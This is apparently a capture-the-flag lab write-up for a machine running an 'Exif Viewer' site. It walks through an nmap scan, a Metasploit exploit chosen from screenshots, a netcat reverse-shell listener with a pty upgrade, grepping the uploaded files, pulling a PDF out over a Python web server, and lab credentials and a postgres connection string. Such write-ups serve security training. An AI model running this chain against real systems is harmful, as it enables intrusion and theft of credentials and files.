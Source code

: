 # 03 - Data Heist (Lab)

We have noticed that there are some employees in our company who are not sufficiently aware of cybersecurity issues. It has been observed that these employees have uploaded files containing company data to a website called "Exif Viewer" in order to view metadata information.

The site claims that it does not store the uploaded files. However, we have to make sure that this is the case. If any of our company's files have been compromised in this process, we need to determine what information may be at risk. You are expected to guide us through this critical process. We rely on your expertise.

Question 1: What is the path where the files are stored on the server?

Lets start by performing a nmap scan to identify open ports and services on the target machine.

```
nmap -sSVC 172.20.49.87
```
```
PORT      STATE SERVICE  VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 5a:bc:c1:64:1b:a8:93:67:8c:a5:3a:c9:5e:28:94:50 (RSA)
|   256 71:07:65:ed:45:e7:b6:a5:18:c4:89:be:bc:fe:fb:01 (ECDSA)
|_  256 1f:7f:9d:f3:96:52:6f:b8:90:7e:dc:8e:b2:d6:2c:1d (ED25519)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Exif Viewer
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The target is running an Apache web server on port 80. Let's look if Exif Viewer is vulnerable.

```
msfconsole
search exif viewer
```

![](Assets/Pasted%20image%2020251028145427.png)

Here we have a bunch of exploits for this tool.

Lets use the first one.

![](Assets/Pasted%20image%2020251028145921.png)

We have created a file to upload to the server.
First lets make a nc listener on port 4444
```
nc -lvnp 4444
```

![](Assets/Pasted%20image%2020251028151034.png)

Great here we have a reverse shell
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Afte enumerating a while we have the first awnser that is the path where the files are stored on the server.
Answer: /var/www/93c0550a5543b366_uploads

Question 2: What is the e-mail address and password of an employee of the company "waltersltd" from the data contained in the stored files?

Lets look for any files that may contain this information.
```
grep -r "waltersltd" /var/www/93c0550a5543b366_uploads
```

![](Assets/Pasted%20image%2020251028151345.png)

Answer: salvarado@waltersltd.hv:hGCQjxZs5chK

Question 3: What is the invoice number of an invoice found in the stored files?

On the same directory we have an Ja23s6_techinnovations_invoice.pdf file. Lets download it.
```
python3 -m http.server 8000
wget http://172.20.49.87:8000/Ja23s6_techinnovations_invoice.pdf
```

![](Assets/Pasted%20image%2020251028151720.png)

Answer: INV-20240228-1234

Question 4: What is the database connection address of the files contained in the stored files?

Lets look for any files that may contain this information.
```
ls -la
```
We found a database.go file. Lets read it.
```
cat database.go
```
```
func main() {
        // Database connection string
        connStr := "postgres://postgres:JS3CqjNCcn7Ve@olympusbytes.hv:5432/olympus"
        db, err := sql.Open("postgres", connStr)
}
```
Now lets connect to the database using the above credentials.

Answer: olympusbytes.hv